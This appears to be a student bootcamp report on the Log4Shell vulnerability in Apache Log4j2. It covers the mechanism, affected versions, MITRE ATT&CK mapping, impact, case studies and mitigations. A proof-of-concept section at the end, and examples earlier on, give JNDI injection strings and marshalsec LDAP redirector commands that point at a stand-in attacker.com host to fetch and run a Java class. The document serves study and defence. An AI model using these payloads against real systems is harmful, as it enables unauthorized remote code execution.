 # log4j-report
A report for my bootcamp.
CVE-2021-44228 (Log4Shell) - Vulnerability Research Report

Author: Alex Breger
Date: April 2025
Tags: Apache, Log4j, JNDI, LDAP, RCE, CVE, Exploit, MITRE ATT&CK

⸻

Executive Summary
	•	CVE: CVE-2021-44228
	•	Discovered: December 2021
	•	Affected Software: Apache Log4j2 (2.0-beta9 to 2.14.1)
	•	Impact: Remote Code Execution (RCE)
	•	Vector: JNDI Lookup injection via LDAP
	•	Severity: Critical (CVSS Score: 10.0)

The vulnerability known as Log4Shell resides in Apache Log4j2 and enables attackers to perform Remote Code Execution by leveraging the JNDI Lookup feature embedded within log message resolution logic. When user-controlled data is logged, it may include malicious JNDI lookups such as ${jndi:ldap://attacker.com/payload}, which Log4j resolves, triggering a remote class load and execution.

⸻

Technical Description

Nature of the Vulnerability

Log4j2 improperly processes embedded variables using JNDI lookups. Attackers can inject expressions like ${jndi:ldap://...} into log messages, tricking the logger into reaching out to attacker-controlled directories and deserializing remote classes.

Key Mechanism:
	•	JNDI (Java Naming and Directory Interface) allows resolution of external resources
	•	Log4j2 supports recursive evaluation of input data
	•	Result: Arbitrary code fetched from attacker server is loaded and executed

Exploitation Vector
	1.	Attacker sends a malicious input to the system (e.g., HTTP header, form field, user agent):

User-Agent: ${jndi:ldap://attacker.com/exploit}


	2.	Log4j logs the string, triggering JNDI lookup
	3.	Lookup contacts LDAP server controlled by attacker
	4.	LDAP server responds with remote Java class reference
	5.	The vulnerable application loads and executes the remote class, leading to RCE

⸻

Affected Systems
	•	Log4j Versions: 2.0-beta9 through 2.14.1
	•	Patched in: 2.15.0 (JNDI disabled by default), removed entirely in 2.16.0+
	•	Vendors Impacted: Virtually all major Java-based software stacks (e.g., Apache, Minecraft, VMware, Elastic, AWS services, etc.)

⸻

MITRE ATT&CK Mapping

Tactic	Technique Description	ID
Initial Access	Exploit Application Vulnerability	T1190
Execution	Remote Java Class Execution via JNDI	T1059.005
Command and Control	External Remote Service (LDAP/HTTP)	T1071.001



⸻

Impact

Remote Code Execution (RCE)
	•	Arbitrary attacker code is executed within the JVM of the vulnerable application

Full System Compromise
	•	If the app runs as root or privileged service, full machine compromise is possible

Data Exfiltration
	•	Access to sensitive logs, credentials, tokens, customer data

Lateral Movement
	•	Compromised system may be used as a launchpad to pivot internally

Denial of Service / Persistence
	•	Malware, ransomware, or persistent access can be established

⸻

Real-World Exploits & Responses
	•	CISA: Issued emergency directive urging immediate patching across federal systems
	•	SANS Institute: Documented exploitation in retail sector involving exfiltration and malware
	•	GitHub: Reviewed 35,000+ dependencies and rapidly patched repositories
	•	AWS: Rolled out proactive mitigations across customer services
	•	Nation-State Actors: APTs and ransomware groups exploited the vulnerability at scale

⸻

Mitigation and Remediation

Recommended Actions
	1.	Upgrade Log4j2 to ≥ 2.16.0
	2.	Remove JndiLookup class:

zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class


	3.	Disable JNDI Lookup in configurations:

-Dlog4j2.formatMsgNoLookups=true


	4.	Use Web Application Firewalls (WAFs) to block known payload patterns
	5.	Restrict outbound LDAP/DNS access in egress firewall rules
	6.	Monitor Logs for Indicators of Compromise (IOCs)

⌚ Long-Term Recommendations
	•	Harden JVM runtime
	•	Perform dependency audits (SBOMs)
	•	Implement centralized logging + anomaly detection
	•	Train developers to avoid logging unsanitized input

⸻

Case Studies

1. Retail Company (SANS)

Attackers used Log4Shell to exfiltrate credit card data, later leading to a ransomware drop.

2. GitHub Response

35,000+ codebases were scanned and upgraded within 72 hours to ensure zero exposure.

3. AWS

AWS released automated scanning and blocked outbound JNDI-based exploits across EC2, Lambda, etc.

⸻

🧪 High-Level Proof of Concept (PoC)

For educational purposes only

Step 1: Craft malicious Java class

```public class Exploit
{
    static {
        Runtime.getRuntime().exec("touch /tmp/pwned");
    }
}```

Step 2: Host class file over HTTP

python3 -m http.server 8000

Step 3: Setup LDAP server to redirect to payload

Use marshalsec tool to setup malicious LDAP redirector

java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://attacker.com:8000/#Exploit

Step 4: Trigger the exploit

Send malicious input to vulnerable app:

User-Agent: ${jndi:ldap://attacker.com:1389/Exploit}

Step 5: Observe RCE
	•	Confirm touch /tmp/pwned executed on target
	•	Log and alert on outbound JNDI calls

⸻

🔧 References
	•	CVE-2021-44228 NVD
	•	Apache Log4j Security Advisory
	•	GitHub’s Response
	•	SANS Log4Shell Resources
	•	CISA Log4Shell Mitigation Guidance
	•	marshalsec GitHub

⸻

💪 License

MIT License © 2025 Alex Breger

⸻

⚠️ DISCLAIMER

This content is for educational and ethical research purposes only. Do not exploit systems without proper authorization.
